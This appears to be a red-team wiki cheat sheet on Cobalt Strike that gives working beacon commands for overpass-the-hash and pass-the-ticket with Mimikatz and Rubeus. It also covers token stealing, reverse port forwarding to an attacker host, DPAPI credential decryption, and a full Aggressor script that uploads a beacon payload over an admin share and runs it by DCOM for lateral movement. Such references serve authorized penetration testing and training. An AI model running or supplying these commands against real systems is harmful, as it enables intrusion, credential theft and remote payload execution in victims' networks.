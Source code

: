 # Cobalt Strike

- [https://reconshell.com/list-of-awesome-cobaltstrike-resources/](https://reconshell.com/list-of-awesome-cobaltstrike-resources/)
- [https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)




## Malleable C2 Profiles

- [https://blog.zsec.uk/cobalt-strike-profiles/](https://blog.zsec.uk/cobalt-strike-profiles/)
- [https://github.com/rsmudge/Malleable-C2-Profiles](https://github.com/rsmudge/Malleable-C2-Profiles)




## Aggressor Scripts

- [https://trial.cobaltstrike.com/aggressor-script/functions.html](https://trial.cobaltstrike.com/aggressor-script/functions.html)
- [https://chowdera.com/2021/02/20210204190220156W.html](https://chowdera.com/2021/02/20210204190220156W.html)




## P2P Beacons

Beacon TCP and Beacon SMB are Peer-to-Peer beacons which means they're used to chain a connection to an existent beacon. They act like bind shells and waits for the attacker to connect to them.

Connect to a TCP beacon:

```
beacon> connect <IP> <PORT>
```

Connect to an SMB beacon:

```
beacon> link <IP>
```




## Overpass-the-Hash

More opsec PtH than builtin `pth` command (which does the Mimikatz `sekurlsa::pth` thing with named pipe impersonation):

```
beacon> mimikatz sekurlsa::pth /user:snovvcrash /domain:megacorp.local /ntlm:fc525c9683e8fe067095ba2ddc971889
beacon> steal_token 1337
```

Same with Rubeus (must be in elevated context):

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
beacon> steal_token 1337
```

Use Rubeus with lower privileges:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec

PS > [System.IO.File]::WriteAllBytes("C:\Windows\Tasks\tgt.kirbi", [System.Convert]::FromBase64String("<BASE64_TICKET>"))
Or
$ echo -en "<BASE64_TICKET>" | base64 -d > tgt.kirbi

beacon> run klist
Or
beacon> execute-assembly Rubeus.exe klist

beacon> make_token MEGACORP\snovvcrash dummy_Passw0rd!
beacon> kerberos_ticket_use C:\Windows\Tasks\tgt.kirbi
```




## Pass-the-Ticket

Create a sacrificial process, import the TGT into its logon session and steal its security token:

```
beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
beacon> execute-assembly Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
beacon> beacon> steal_token 1337
```




## Pivoting

Make any traffic hitting port **8443** on Victim to be redirected to **10.10.13.37** on port **443** (traffic flows through the Team Server):

```
beacon> rportfwd 8443 10.10.13.37 443
```

Make any traffic hitting port **8080** on Victim to be redirected to **localhost:8080** on Attacker (traffic flows through the CS client):

```
beacon> rportfwd_local 8080 127.0.0.1 80
```

Extending `jump` with [Invoke-DCOM.ps1](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/data/module_source/lateral_movement/Invoke-DCOM.ps1):

```powershell
sub invoke_dcom
{
    local('$handle $script $oneliner $payload');

    # acknowledge this command1
    btask($1, "Tasked Beacon to run " . listener_describe($3) . " on $2 via DCOM", "T1021");

    # read in the script
    $handle = openf(getFileProper("C:\\Tools", "Invoke-DCOM.ps1"));
    $script = readb($handle, -1);
    closef($handle);

    # host the script in Beacon
    $oneliner = beacon_host_script($1, $script);

    # generate stageless payload
    $payload = artifact_payload($3, "exe", "x64");

    # upload to the target
    bupload_raw($1, "\\\\ $+ $2 $+ \\C$\\Windows\\Temp\\beacon.exe", $payload);

    # run via this powerpick
    bpowerpick!($1, "Invoke-DCOM -ComputerName $+ $2 $+ -Method MMC20.Application -Command C:\\Windows\\Temp\\beacon.exe", $oneliner);

    # link if p2p beacon
    beacon_link($1, $2, $3);
}

beacon_remote_exploit_register("dcom", "x64", "Use DCOM to run a Beacon payload", &invoke_dcom);
```

Forward SOCKS server's port from team server to the client:

```
beacon> socks 1080
$ ssh -tt -v -L 9050:localhost:1080 root@teamserver
```




## Credentials



### DPAPI

List credential blobs:

```
beacon> ls C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials
```

List vault credentials:

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
beacon> mimikatz vault::list
```

Check which master keys correspond to credential blobs (look for **guidMasterKey** field with GUID):

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB>
```

The master key is stored here:

```
beacon> ls C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID>
```

Decrypt the master key via RPC on the Domain Controller and show it:

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\snovvcrash\AppData\Roaming\Microsoft\Protect\<SID> /rpc
```

Decrypt the blob with decrypted master key:

```
beacon> mimikatz dpapi::cred /in:C:\Users\snovvcrash\AppData\Local\Microsoft\Credentials\<BLOB> /masterkey:<MASTERKEY>
```




## Evasion



### Sleep Mask

{% hint style="info" %}
Take a look at Shellcode In-Memory Fluctuation technique.
{% endhint %}

{% content-ref url="/pentest/infrastructure/ad/av-edr-evasion/maldev/code-injection/README.md#shellcode-in-memory-fluctuation" %}
[ntlmv1-downgrade.md](ntlmv1-downgrade.md)
{% endcontent-ref %}

- [https://adamsvoboda.net/sleeping-with-a-mask-on-cobaltstrike/](https://adamsvoboda.net/sleeping-with-a-mask-on-cobaltstrike/)
